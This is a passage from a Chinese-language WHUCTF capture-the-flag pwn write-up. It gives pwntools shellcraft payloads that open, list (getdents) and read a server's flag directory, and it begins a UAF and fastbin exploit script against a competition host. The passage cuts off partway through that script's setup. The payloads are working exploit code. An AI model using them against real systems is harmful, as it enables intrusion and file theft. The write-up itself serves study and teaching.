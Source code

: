 ```python
r.interactive()
```

> WHUCTF{Do_yOu_kNow_canary}

## shellcode

沙盒逃逸（？）的`orw` ，这里参考了一下[民间答案](https://www.jianshu.com/p/f74964be92f6),用到`getdents` 扫描服务器文件夹，找到flag位置。不能直接用sh貌似是因为`mprotect` （？）

```c
int getdents(unsigned int fd, struct linux_dirent *dirp,
                    unsigned int count);
// 从文件描述符fd中读取长度为count的内容到dirp所指的区域
```

第一阶段扫描整个目录，先`open` 得到的fd会存放在rax中，然后`getdents`扫描存放在`rsp` 中，然后`write` 出来

```python
shellcode = shellcraft.open("./",0x10000)
shellcode += shellcraft.getdents("rax","rsp",0x300)
shellcode += shellcraft.write(1,"rsp",0x300)
```

可以看到结果可以勉强辨认，与当前文件夹内容相同（本地测试）

![](https://i.loli.net/2020/06/10/hREvTwMp2m3HJCt.png)

拿到服务器上跑，可以发现有个FFFFFFFFFlag文件夹，进一步解析这个文件夹发现flag在里面，打印出来即可

```python
payload = shellcraft.open("./FFFFFFFFFlag/flag",0)
payload += shellcraft.read("rax","rsp",0x300)
payload += shellcraft.write(1,"rsp",0x300)
```

可以看到`read` 只能读取文件，而`getdents` 能读取文件夹

> WHUCTF{ORWOWRROWRWOWORWRO_779243c8c5097c6920d52b79d31f0d4a}

## attention

`uaf`+`fastbin attack`打`got`表，构造chunk size即可，比较简单。

```python
#coding:utf-8
from pwn import *
# import pwn_framework as pf
from time import sleep
import sys

global io
ru = lambda p, x : p.recvuntil(x)
sn = lambda p, x : p.send(x)
rl = lambda p  : p.recvline()
sl = lambda p, x : p.sendline(x)
rv = lambda p, x : p.recv(numb = x)
sa = lambda p, a,b : p.sendafter(a,b)
sla = lambda p, a,b : p.sendlineafter(a,b)
rr = lambda p, t : p.recvrepeat(t)

# amd64 or x86
context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./pwn"
ip = "218.197.154.9"
```